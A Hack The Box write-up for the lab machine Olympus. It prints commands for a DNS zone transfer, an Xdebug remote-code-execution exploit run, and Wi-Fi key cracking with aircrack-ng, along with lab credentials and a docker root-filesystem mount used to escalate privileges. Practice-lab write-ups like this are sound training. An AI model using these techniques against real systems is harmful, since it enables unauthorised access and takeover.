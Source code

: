 ## HTB Olympus (Medium) - Writeup

Difficulty: Medium

Olympus was a well-designed box involving DNS exploitation and Wi-Fi cracking, with containerization playing a key role throughout the journey.  
Privilege escalation was achieved through a misconfiguration, making for a solid and enjoyable challenge.  
---

## Nmap 

#### The nmap scan revealed three open and one filtered port:

![obraz](https://github.com/user-attachments/assets/981edf0e-18d3-4d26-9ee1-a08c7fdad02c)




## Port 53 - DNS

We can try to look for hidden domain names with dig command:  
```
dig axfr @10.10.10.83 olympus.htb
dig @10.10.10.83 olympus.htb
```
![obraz](https://github.com/user-attachments/assets/b225b181-6a1f-423a-9784-0f70a2b06b59)

Domain name olympus.htb was just my guess based on HTB naming convention.  




## Port 80 - Website 

![obraz](https://github.com/user-attachments/assets/1c397e3e-bf48-4433-84ee-1aa3c1c3ed14)

It doesn't contain anything intresting, also feroxbuster didn't found anything.  

Let's take a look at the http response headers.  

![obraz](https://github.com/user-attachments/assets/712a3f78-565e-49db-8cca-12f3a595903d)

Xdebug looks promising, lets research it a bit.  
It turns out that xdebug is a php tool and 2.5.5 is a version.   

After a quick search I found an RCE exploit for this tool.  
```
https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py
```

Let's try to get basic code execution with it:  
```
python3 exp.py -t http://10.10.10.83/index.php -c 'shell_exec("id");' --dbgp-ip 10.10.14.14
```
![obraz](https://github.com/user-attachments/assets/f180588b-d66d-4cd5-9865-bfa444900d88)

It worked, now we can try to get a shell access, I'll try netcat shell first.  
We will start netcat listener on port 9005 and run:  

![obraz](https://github.com/user-attachments/assets/2ae2d5d6-6800-4ffa-bd86-23fbeb33efd9)

We were lucky, it turned out that our target had netcat with -e option installed which led to initial access.  

![obraz](https://github.com/user-attachments/assets/fc520114-fb0f-42b9-b3c2-25cc7ec499d0)

After a quick enumeration we see that it is likely a container, hostname is weird, and ip differs from the original one.  
Also python is not installed meaning we can't upgrade a terminal.  

![obraz](https://github.com/user-attachments/assets/a195cc26-f6c5-42e3-b5d0-bd80a9df3380)

After some enumeration we found .cap file, it 100% might contain something intresting.  
We will move this file with netcat, first we will start a listener on kali:    

![obraz](https://github.com/user-attachments/assets/b4fd7ee7-e889-4414-b778-25f8b834340e) 

and then run netcat on the target machine:  

![obraz](https://github.com/user-attachments/assets/7fc8f682-46e5-43c5-b504-7cb698af1d81)



## Wireshark - .cap Analysis

Now we can open this file with wireshark:  

![obraz](https://github.com/user-attachments/assets/b01848c2-4569-4ac0-98a4-317ab6bb6e85)  

It is a file containing traffic captured from the 802.11 protocol, which is the standard used for wireless Wi-Fi communication.  
Manually analyzing this file wouldn't be required here.  
We will use a tool called **aircrack-ng** to get wi-fi password.  
```
aircrack-ng file.cap -w /usr/share/wordlists/rockyou.txt
```
We have found a key "flightoficarus".   
Network name is "Too_cl0se_to_th3_Sun".  


## ssh shell as icarus

Combining these two informations and after some tries we found ssh access as "icarus" with password "Too_cl0se_to_th3_Sun".  
Notice we specified port 2222, because it was the open port for ssh on this machine.  

![obraz](https://github.com/user-attachments/assets/1b2f6a5d-1a76-457d-a5af-4bdd3eea7be7)

After some enumeration we found:  

![obraz](https://github.com/user-attachments/assets/f97ac847-a634-448e-ae59-c1aceccca40a)

Now we need to go back to port 53 enumeration with this domain name.  


## Back to port 53 - DNS

With new domain name we can try to perform zone transfer as port 53 is open.  

![obraz](https://github.com/user-attachments/assets/badfc957-22fe-4ca6-bb77-42815b453190)

It had a dns TXT record saying:  
```
"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
```

It looks like a password and numbers used for port knocking.  
port knocking is a mechanism used to protect netowork services.  
With a proper combination of three numbers we can "knock" a port to temporarily open it.  
Port 22 came from nmap as "filtered". We can try to knock it.  

![obraz](https://github.com/user-attachments/assets/ba01493e-986b-4c16-a60f-3a0ec480dabd)

The username was discovered by analyzing a DNS TXT record and recognizing the naming pattern based on Greek gods used in previous accounts.  



## Abusing docker to get root

Again quick enumeration led to basic founding.  
We're in "docker" group which allows us to run docker commands.  

![obraz](https://github.com/user-attachments/assets/1b52fdb6-a8c9-4b8d-b6a7-5676ba97a68b)

We can start with enumerating running docker containers.  

![obraz](https://github.com/user-attachments/assets/c8afc27d-aaea-4a23-b32a-525a478437c1)

There are three containers. I believe we have to use "rhodes" because this is the only hostname I haven't seen before on this machine.  
We can try to abuse it with this command:  
```
docker run -v /:/mountedroot -i -t rodhes bash
```
![obraz](https://github.com/user-attachments/assets/44bba0c6-bbb0-4567-ad2a-f70c3abc4e53)

## Command Explanation 
docker run --> Starts a new Docker container.  
-v /:/mountedroot --> Mounts the host's root filesystem / into the container at the path /mountedroot  
-i --> Runs the container in interactive mode.   
-t --> Allocates a pseudo-TTY  
rhodes --> The name of the Docker image used to create the container.  
bash --> The command to run inside the container.  

## Retrieving a flag

We mounted / to /mountedroot  
Meaning flag will be located in /mountedroot/root/root.txt  

![obraz](https://github.com/user-attachments/assets/24739d58-a4dd-4b30-a234-90da0b05e04c)

Thank you for reading!  







































